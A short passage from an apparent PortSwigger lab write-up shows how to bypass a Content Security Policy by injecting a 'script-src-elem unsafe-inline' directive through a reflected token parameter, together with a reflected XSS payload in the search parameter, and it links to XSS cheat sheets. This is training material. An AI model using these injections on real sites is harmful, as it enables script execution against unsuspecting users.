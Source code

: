 In network tool we see that is sending a request to /csp-report?token=

What happens if we try to **add** the token to our request:

```
https://0abe00f703f4e31c8066a83e003900a0.web-security-academy.net/?search=<script>alert(0)</script>&token=test
```

- `&` -> Add more parameters inside the same query.
- `?` -> Only can be used one time, everything that comes after is interpreted like parameters.

Looking at the network request again, we can observe that we have some control over the CSP.

```
https://0abe00f703f4e31c8066a83e003900a0.web-security-academy.net/?search=<script>alert(0)</script>&token=;script-src-elem 'unsafe-inline'
```

---

# Cheatsheets

- [XSS Cheatsheet portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
